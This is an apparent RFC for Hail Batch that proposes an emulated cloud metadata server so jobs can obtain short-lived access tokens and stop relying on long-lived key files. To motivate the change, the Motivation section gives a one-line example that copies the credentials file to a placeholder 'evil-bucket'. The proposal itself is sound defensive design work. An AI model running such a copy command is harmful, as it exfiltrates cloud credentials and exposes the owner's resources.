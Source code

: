 ===============================================
Keyless Cloud Authentication in Hail Batch Jobs
===============================================

.. author:: Daniel Goldstein
.. date-accepted:: Leave blank. This will be filled in when the proposal is accepted.
.. ticket-url:: Leave blank. This will eventually be filled with the
                ticket URL which will track the progress of the
                implementation of the feature.
.. implemented:: Leave blank. This will be filled in with the first Hail version which
                 implements the described feature.
.. header:: This proposal is `discussed at this pull request <https://github.com/hail-is/hail-rfc/pull/0>`_.
            **After creating the pull request, edit this file again, update the
            number in the link, and delete this bold sentence.**
.. sectnum::
.. contents::
.. role::

In a Hail Batch pipeline, all user code runs under one of two identities associated
with the underlying cloud platform. On the user's computer, code runs as the user's
human identity. Inside a Batch job running in the cloud, the job is running as a
Hail-managed identity created for that user on signup. We will refer to this
identities as the user's Human Identity and the Robot Identity, respectively.

In the current system, Batch jobs are given access to the users' robot identity
through a file planted in the job's filesystem containing the identity's
credentials. In GCP, the credentials are a GSA key file. In Azure, the credentials
are a username/password for a AAD Service Principal. These credentials are created,
stored, and rotated by the Hail Batch system. 


Motivation
----------

Exposing long-lived credentials to user jobs poses a security risk,
as these credentials could be easily exfiltrated by the user or any malicious
code the user inadvertantly runs. The following is all that needs to run to
exfiltrate these credentials.

.. code-block:: python
   j.command('gcloud storage cp $GOOGLE_APPLICATION_CREDENTIALS gs://evil-bucket/')

Hail operators rotate GSA keys quarterly, so such an exfiltration could provide
a malicious actor access to all resources granted to the robot identity for up
to 90 days.

Cloud providers avoid persisting long-lived credentials on user machines through
the Metadata Server interface, an HTTP endpoint available on a
`link-local <https://en.wikipedia.org/wiki/Link-local_address>`_ address which can
issue access tokens for the identity assigned to the virtual machine. Available
metadata in GCP is described `here <https://cloud.google.com/compute/docs/metadata/predefined-metadata-keys>`_. This interface has the following advantages:

- Unlike long-lived keys, these tokens are short-lived (e.g. 1 hour), reducing
  the potential attack window following exfiltration.
- The metadata server can be configured only to issue certain scopes, so the
  operations a job can perform may be restricted. It is not possible to scope
  GSA keys and AAD SP client secrets.

This proposal seeks to provide an emulated metadata server to Batch jobs and remove
jobs' dependence on long-lived credentials.

Removing this dependency also opens the door to future work of removing
long-lived credentials entirely from the system in favor of alternative approaches
to gaining access tokens from the cloud identity providers (discussed briefly 
in Inspiration & Alternatives).


Proposed Change Specification
-----------------------------

Batch jobs access credentials on the filesystem through the
``$GOOGLE_APPLICATION_CREDENTIALS``/``$AZURE_APPLICATION_CREDENTIALS``
environment variables (EVs). Under this change, the files and EVs will still be
available but their use will be deprecated in the documentation.

Currently, Batch uses firewall rules to block access to the metadata server for
user jobs, permitting users access would allow them to impersonate the batch worker.
This proposal would allow packets from jobs destined to ``169.254.169.254`` but
redirect those packets to a web server owned by the Batch Worker.
The Batch Worker can then use the
credentials for the job in question to generate access tokens on behalf of the
robot identity and distribute them upon request.

The following sequence diagrams illustrate how a Batch job obtains credentials
to access a cloud resource in the current system and under the proposed change.
The diagrams use GCP-specific terms and URLs, but the interaction is largely
the same in Azure.


Current System
==============

.. code-block:: text

    +-----+                                                +-----+              +-----+
    | Job |                                                | IAM |              | GCS |
    +-----+                                                +-----+              +-----+
       | --------------------------------------------------\  |                    |
       |-| Cook up request for access token using key file |  |                    |
       | |-------------------------------------------------|  |                    |
       |                                                      |                    |
       | https://www.googleapis.com/oauth2/v4/token           |                    |
       |----------------------------------------------------->|                    |
       |                                                      | ----------------\  |
       |                                                      |-| Validate key  |  |
       |                                                      | |---------------|  |
       |                                                      |                    |
       |                          Access Token scoped for GCS |                    |
       |<-----------------------------------------------------|                    |
       |                                                      |                    |
       | Access Token                                         |                    |
       |-------------------------------------------------------------------------->|
       |                                                      |                    | -----------------------------------\
       |                                                      |                    |-| Validate access token and scopes |
       |                                                      |                    | |----------------------------------|
       |                                                      |                    |
       |                                                      |               File |
       |<--------------------------------------------------------------------------|
       |                                                      |                    |


Proposed Model
==============

.. code-block:: text

    +-----+                                                                                +---------+                                              +-----+              +-----+
    | Job |                                                                                | Worker  |                                              | IAM |              | GCS |
    +-----+                                                                                +---------+                                              +-----+              +-----+
       |                                                                                        |                                                      |                    |
       | http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token      |                                                      |                    |
       |--------------------------------------------------------------------------------------->|                                                      |                    |
       |                                                                                        | --------------------------------------------------\  |                    |
       |                                                                                        |-| Cook up request for access token using key file |  |                    |
       |                                                                                        | |-------------------------------------------------|  |                    |
       |                                                                                        |                                                      |                    |
       |                                                                                        | https://www.googleapis.com/oauth2/v4/token           |                    |
       |                                                                                        |----------------------------------------------------->|                    |
       |                                                                                        |                                                      | ----------------\  |
       |                                                                                        |                                                      |-| Validate key  |  |
       |                                                                                        |                                                      | |---------------|  |
       |                                                                                        |                                                      |                    |
       |                                                                                        |                          Access Token scoped for GCS |                    |
       |                                                                                        |<-----------------------------------------------------|                    |
       |                                                                                        |                                                      |                    |
       |                                                                           Access Token |                                                      |                    |
       |<---------------------------------------------------------------------------------------|                                                      |                    |
       |                                                                                        |                                                      |                    |
       | Access Token                                                                           |                                                      |                    |
       |------------------------------------------------------------------------------------------------------------------------------------------------------------------->|
       |                                                                                        |                                                      |                    | -----------------------------------\
       |                                                                                        |                                                      |                    |-| Validate access token and scopes |
       |                                                                                        |                                                      |                    | |----------------------------------|
       |                                                                                        |                                                      |                    |
       |                                                                                        |                                                      |               File |
       |<-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
       |                                                                                        |                                                      |                    |


It is worth emphasizing that the purpose of this feature is *not* to provide a
fully complete and compliant metadata server to Hail Batch. Rather, the aim is to provide the
minimum functionality necessary to allow Hail libraries and popular first-party
tools like ``gcloud`` and ``az`` the ability to obtain short-lived credentials without
exposing key files to user code. As such, an implementation may implement just the
endpoints necessary to run the below examples for at least one version of ``gcloud``/``az``
and all supported versions of ``hail``.


Examples
--------

Under the proposed change, the following Batch job commands should succeed:

.. code-block:: python

   j.command('gcloud storage ls <MY_BUCKET>')
   j.command('hailctl batch submit <MY_SCRIPT>')


Effect and Interactions
-----------------------

This change adds a method through which jobs can obtained short-lived access
tokens without directly accessing long-lived credentials. With such a solution
in place, we can eventually remove the long-lived credentials from job containers,
mitigating the risk of exfiltration.

So long as the firewall rules are correctly configured to redirect metadata traffic
to the Batch worker, there should be no adverse interactions with the existing
system as such traffic was previously forbidden.


Inspiration & Alternatives
--------------------------

We can look to the Kubernetes project for examples of integrating with cloud
identity providers. In particular, we will examine `GKE's Workload Identity <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#what_is>`_.
Workload identity allows pods to obtain credentials for GCP IAM identities. To
do so, GKE runs the `GKE Metadata Server <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#metadata_server>`_
which functions similarly to what is described in this proposal.

The difference arises in how the metadata server fulfills the user's request for
an access token. Unlike in this proposal, GKE nodes do not hold IAM credentials.
Instead, it uses OIDC to "trade" a Kubernetes Service Account credential for a
`preconfigured IAM credential <https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#credential-flow>`_. This has the advantage of not needing to distribute IAM
credentials in GKE and enabling fine-grained mapping between GKE and IAM identities.
However, OIDC is not easily applicable in Hail Batch because Batch is not an
identity provider. We could remove the storage and distribution of key files in GCP by
using `IAM Service Account Impersonation <https://cloud.google.com/docs/authentication/use-service-account-impersonation>`_, but that is outside the scope of this RFC.
